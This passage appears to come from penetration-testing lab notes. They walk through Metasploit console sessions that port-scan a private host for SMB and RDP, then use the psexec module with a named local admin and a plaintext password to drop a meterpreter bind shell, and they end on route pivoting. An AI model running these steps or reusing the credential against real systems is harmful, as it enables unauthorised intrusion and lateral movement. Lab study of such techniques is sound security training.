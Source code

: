 Module
```
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 
```

Configs
```
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445 (SMB) , 3389 (RDP)
```

Run
```
msf6 auxiliary(scanner/portscan/tcp) > run
[+] 172.16.5.200:         - 172.16.5.200:445 - TCP OPEN
[+] 172.16.5.200:         - 172.16.5.200:3389 - TCP OPEN
[*] 172.16.5.200:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### PSExec to second interface
##### Metasploit Module: windows/x64/meterpreter/bind_tcp

PSExec as Luiza (local admin on target) with pass `BoccieDearAeroMeow1!` to `172.16.5.200`

```hlt:1,4,7,10,13,16
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
```

Run [psexec module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) and get new meterpreter session.

#### Auto Add New Routes 
##### Metasploit Module: multi/manage/autoroute

Remove manually set route with `route flush`
